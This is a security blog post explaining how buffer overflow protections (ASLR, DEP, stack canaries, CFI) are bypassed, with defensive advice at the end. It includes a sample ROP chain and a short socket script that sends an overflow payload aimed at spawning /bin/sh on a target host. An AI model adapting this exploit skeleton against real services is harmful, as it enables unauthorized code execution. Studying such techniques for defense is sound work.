 
---
layout: post
title: "Advanced Buffer Overflow Techniques"
date: 2025-01-15
category: defensive
author: "Husam Gameel (Oppenheim3r)"
permalink: /blogs/defensive/advanced-buffer-overflow/
---

Buffer overflow vulnerabilities remain one of the most critical security issues in modern software development. This post explores advanced techniques for exploiting buffer overflows and bypassing contemporary security mechanisms.

## Introduction

Buffer overflows occur when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory locations. While basic buffer overflow exploitation has been well-documented, modern systems implement various protection mechanisms that require sophisticated bypass techniques.

## Modern Protection Mechanisms

### Address Space Layout Randomization (ASLR)

ASLR randomizes the memory layout of processes, making it difficult for attackers to predict memory addresses. However, several techniques can be used to bypass ASLR:

- **Information Leaks**: Exploiting format string vulnerabilities or other information disclosure bugs
- **Partial Overwrites**: Overwriting only the least significant bytes of addresses
- **Brute Force**: In 32-bit systems, the entropy is limited enough for brute force attacks

### Data Execution Prevention (DEP/NX)

DEP marks memory pages as non-executable, preventing code execution in data segments. Common bypass techniques include:

- **Return-Oriented Programming (ROP)**: Chaining existing code gadgets
- **Jump-Oriented Programming (JOP)**: Using indirect jumps instead of returns
- **Return-to-libc**: Calling existing library functions

## Advanced Exploitation Techniques

### ROP Chain Construction

```python
#!/usr/bin/env python3

import struct

def p64(value):
    return struct.pack('<Q', value)

# Sample ROP chain for x64 Linux
rop_chain = b""
rop_chain += p64(0x400123)  # pop rdi; ret
rop_chain += p64(0x601000)  # address of "/bin/sh"
rop_chain += p64(0x400456)  # system() address
```

### Heap Exploitation

Modern heap exploitation techniques focus on:

- **Use-After-Free (UAF)**: Exploiting dangling pointers
- **Double-Free**: Corrupting heap metadata
- **Heap Spraying**: Filling heap with controlled data

## Mitigation Bypass Strategies

### Stack Canaries

Stack canaries are random values placed on the stack to detect buffer overflows:

```c
// Vulnerable function with stack canary
void vulnerable_function(char *input) {
    char buffer[256];
    // Stack canary is placed here by compiler
    strcpy(buffer, input);  // Vulnerable to overflow
    // Canary check happens here
}
```

Bypass techniques:
- **Canary Leaks**: Using format string bugs to leak canary values
- **Partial Overwrites**: Avoiding canary corruption
- **Brute Force**: In forking servers, canaries remain constant

### Control Flow Integrity (CFI)

CFI ensures that indirect calls and jumps target legitimate destinations:

- **Gadget Discovery**: Finding legitimate call targets
- **Shadow Stack**: Maintaining a separate call stack
- **Hardware Assistance**: Using Intel CET or ARM Pointer Authentication

## Practical Example

Here's a complete exploitation example:

```python
#!/usr/bin/env python3
import socket
import struct

def exploit():
    # Target information
    target_ip = "192.168.1.100"
    target_port = 9999
    
    # ROP gadgets (found using ROPgadget)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    system_addr = 0x400560
    bin_sh = 0x400800
    
    # Build payload
    payload = b"A" * 72  # Buffer overflow
    payload += struct.pack('<Q', pop_rdi)
    payload += struct.pack('<Q', bin_sh)
    payload += struct.pack('<Q', system_addr)
    
    # Send exploit
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    exploit()
```

## Detection and Prevention

### Static Analysis

- **Code Review**: Manual inspection of critical functions
- **Automated Tools**: Using tools like Coverity, PVS-Studio
- **Compiler Warnings**: Enabling all relevant warning flags

### Dynamic Analysis

- **Fuzzing**: Using tools like AFL, libFuzzer
- **Runtime Checks**: AddressSanitizer, Valgrind
- **Penetration Testing**: Regular security assessments

### Secure Coding Practices

```c
// Secure string handling
#include <string.h>

void secure_copy(const char *src, char *dst, size_t dst_size) {
    strncpy(dst, src, dst_size - 1);
    dst[dst_size - 1] = '\0';  // Ensure null termination
}

// Using safer alternatives
char buffer[256];
snprintf(buffer, sizeof(buffer), "User input: %s", user_input);
```

## Conclusion

Buffer overflow exploitation continues to evolve alongside defensive mechanisms. Understanding both attack and defense perspectives is crucial for cybersecurity professionals. While modern protections make exploitation more challenging, determined attackers can still find ways to bypass these mechanisms.

Key takeaways:
- Always assume multiple layers of protection
- Stay updated with latest bypass techniques
- Implement defense in depth
- Regular security testing is essential

## References

- [OWASP Buffer Overflow Guide](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)


